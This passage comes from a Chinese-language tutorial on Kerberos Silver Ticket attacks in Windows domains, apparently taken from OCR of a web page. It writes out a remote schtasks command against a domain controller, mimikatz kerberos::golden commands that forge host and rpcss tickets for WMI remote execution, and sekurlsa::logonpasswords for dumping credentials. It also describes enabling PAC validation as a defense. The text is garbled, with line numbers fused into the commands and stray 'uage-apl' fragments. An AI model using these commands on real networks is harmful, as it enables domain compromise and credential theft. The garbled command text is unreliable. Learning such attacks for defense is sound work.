    ```apl
   01schtasks /create /S dc.laffrex.com /sc WEEKLY /tn "test" /tr "c:\windows\system32\calc.exe" 
   ```

3. 查看是否添加成功 uage-apl

   ```cmd
   010203schtasks /query /s dc.laffrex.com
   #如果无法查看，使用美国时区编码
   chcp 437
   ```

##### 远程命令执行

- 使用WMI在目标系统上远程命令执行。需要导入两张Silver Ticket,一张**host Silver Ticket**,一张**rpcss Silver Ticket**

1. 导入票据 uage-apl

   ```apl
   010203kerberos:golden /user:伪造的用户名 /domain:域名 /sid:sID /target:目标主机 /rc4:目标主ss的hash值 /service:host  /ptt
   
   kerberos:golden /user:伪造的用户名 /domain:域名 /sid: SID /target:目标主机 /rc4:目标主机的hash值 /service:rpcss  /ptt
   ```

2. 执行wmi命令，在远程主机上创建新进程

#### 防御方法

1. 尽量保证凭证不被获取到

2. 增加验证

   1. 通过开启PAC(Privileged Attribute Certificate)特权属性证书保护功能。开启PAC后，PAC会将client发送的票据ticket发送给KDC，由KDC进行验证ticket是否有效，就可以使所伪造的票据无法进行利用。

   2. 在Server端开启的方式是更改注册表中的一个值，将uage-apl

      ```apl
      01HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos\Parameters
      ```

      中的ValidateKdcPacSignature设为1

#### 实例

1. 获取到目标服务器的NTLM哈希值

   - 为服务器的HTLM哈希值，而不是用户的 uage-apl

   ```apl
010203040506privilege::debug
   
   sekurlsa::logonpasswords
   
   #去掉sid后3位，为域控信息标志位
   S-1-5-21-1027567978-1567870151-2422577431
   ```
   